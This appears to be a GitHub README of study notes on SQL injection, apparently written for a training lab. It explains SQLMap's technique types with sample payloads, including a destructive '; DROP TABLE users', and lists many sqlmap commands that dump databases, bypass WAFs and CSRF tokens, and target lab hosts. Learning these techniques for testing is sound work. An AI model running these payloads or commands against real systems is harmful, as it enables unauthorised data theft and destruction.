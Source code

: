 # SQL-Inyeccion

<h2> 💻 Boolean-based blind SQL Injection 💻</h2>

<h3> SQLMap </h3> 

<strong> Type of atacks that SQL Map suports. The technique characters BEUSTQ refers to the following: </strong>


<ul>
<li>B: Boolean-based blind	</li>
<li>E: Error-based			</li>
<li>U: Union query-based	</li>
<li>S: Stacked queries		</li>
<li>T: Time-based blind		</li>		
<li>Q: Inline queries		</li>
</ul>

<h4> Boolean-based blind </h4>

<p> Boolean-based SQL injection is a technique which relies on sending an SQL query to the database. The result allows an attacker to judge whether the payload used returns true or false, even though no data from the database are recovered </p>

```sql
AND 1=1
```

<h4> Error-based </h4>

<p> Error-based SQL injection is an In-band injection technique where the error output from the SQL database is used to manipulate the data inside the database. In In-band injection, the attacker uses the same communication channel for both attacks and collect data from the database.</p>

```sql
AND GTID_SUBSET(@@version,0)
```


<h4> Union query based </h4>

<p> Union based SQL injection allows an attacker to extract information from the database by extending the results returned by the original query. The Union operator can only be used if the original/new queries have the same structure (number and data type of columns). </p> 

```sql

UNION ALL SELECT 1,@@version,3

```


<h4>Stacked queries</h4>

<p> Stacked queries provide a lot of control to the attacker. By terminating the original query and adding a new one, it will be possible to modify data and call stored procedures. This technique is massively used in SQL injection attacks and understanding its principle is essential to a sound understanding of this security issue.</p>

```sql

; DROP TABLE users

```
<h4>Time-based blind SQL Injection</h4>

<p> What is a time-based blind SQL injection? In a time-based SQL injection, the attacker sends SQL queries to the database, which force the database to wait for a specified amount of time before responding. ... This allows the attacker to know if the result is true or false, even though no data from the database is returned.</p>

```sql
AND 1=IF(2>1,SLEEP(5),0)

```

<h4> Examples </h4> 

```bash

sqlmap -u "http://68.183.43.71:31928/case2.php" --data 'id=1' --batch --dump
```

```bash

sqlmap -u "http://68.183.43.71:31928/case2.php" --data 'id=1' --batch --dump
```

```bash


sqlmap -u "http://46.101.14.236:31381/case3.php" -H 'Cookie: id=1*' --batch --dump
```


```bash
sqlmap -r pass --batch --dump


```

<p> El símbolo de porcentaje (%) significa que se acepta cualquier elemento en su lugar: un carácter, cien caracteres o ningún carácter. Los comodines que utiliza para consultar geodatabases personales son el asterisco (*) para cualquier número de caracteres y el signo de pregunta (?) para un carácter. </p>

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"


```


```bash
curl 'http://46.101.14.236:30396/case5.php?id=1' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Referer: http://46.101.14.236:30396/case5.php' -H 'Upgrade-Insecure-Requests: 1'

```


```bash
sqlmap -u "http://46.101.14.236:30396/case5.php?id=1" --dump --batch --level=5 -v --risk=3 -T flag5

sqlmap -u "http://46.101.8.93:30951/case1.php?id=1" --search -C style --batch

table 'users' in database 'testdb'  

```


```bash

sqlmap -u "http://46.101.8.93:30951/case1.php?id=1" --dump -D testdb -T users 

sqlmap -u "http://46.101.8.93:32590/case8.php" --data="id=1&t0ken=MEu9sTsYcBvyxR3KngqBo5c5fJrwr2ITxJQLIjlWx4" --csrf-token="t0ken" --batch --dump

```


```bash
sqlmap -u "http://46.101.14.236:30154/case11.php?id=1" --dump --batch --tamper=between --random-agent

```



```bash

sqlmap -u 'http://68.183.43.71:30885/action.php' --data '{"id":1*}' --dump --batch --risk=3 --level=5  --skip-waf --random-agent -T final_flag -D production --tamper=between -v 3
 

sqlmap -u 'http://46.101.14.236:32711/action.php' --data '{"id":1*}' --dump --batch --risk=3 --level=5  --skip-waf --random-agent  --tamper=between -v 3 

sqlmap -u 'http://68.183.43.71:30885/action.php' --data '{"id":1*}' --dump --batch --risk=3 --level=5  --skip-waf --random-agent  --tamper=between  --technique=T -D production -T final_flag
```

